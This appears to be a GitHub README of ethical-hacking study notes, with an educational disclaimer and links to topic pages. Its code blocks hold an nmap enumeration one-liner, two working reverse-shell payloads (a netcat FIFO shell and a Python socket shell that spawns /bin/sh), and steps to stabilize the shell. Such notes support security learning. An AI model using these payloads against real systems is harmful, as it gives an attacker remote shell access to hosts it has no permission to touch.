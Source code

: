 # ScriptKiddie

This repo contains some concepts and code snippets related to Ethical hacking. The Contents are given in alphabetical order.

***Disclaimer: This is for educational purpose and not to gain unauthorized access. Using your hacking skills on machines withuot permissions is illegal, so use it with responsibility***
## Contents
- [Burp & OWASP ZAP](./concepts/16.md)
- [chisel](./concepts/9.md)
- [CVE](./concepts/13.md)
- [Django](./concepts/15.md)
- [Gobuster](./concepts/12.md)
- [Linux PrivEsc](./concepts/17.md)
- [Networking tools](./concepts/2.md)
- [Nikto](./concepts/11.md)
- [nmap](./concepts/2a.md)
- [OSI & TCP/IP Model](./concepts/1.md)
- [OWASP Top 10](./concepts/14.md)
- [Pivoting](./concepts/4.md)
- [proxychain](./concepts/6.md)
- [shell](./concepts/5.md)
- [socat](./concepts/7.md)
- [sshuttle](./concepts/8.md)
- [Static binaries](./concepts/10.md)
- [Websites basics](./concepts/3.md)


## Enumeration

```
ports=$(nmap -p- --min-rate=1000 -T4 $ip | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports $ip
```

## Common Shell Payloads
```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
[Github Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Stabilize nc shell

After getting a reverse shell by listening on any port using `nc -lvnp <port>` We can get upgrade the shell by performing the following
1. Run `python -c 'import pty;pty.spawn("/bin/bash")'`. If this gives error like "python dont exist" use python2 or python3 instead.

Just by using this we will get a comparatively better shell. But we can't use autocomplete and arrow keys. For more stable shell

2. Run `export TERM=xterm` in reverse shell and background the process with Ctrl + Z.
3. Run `stty raw -echo; fg` in your own terminal. This will give the stable shell.
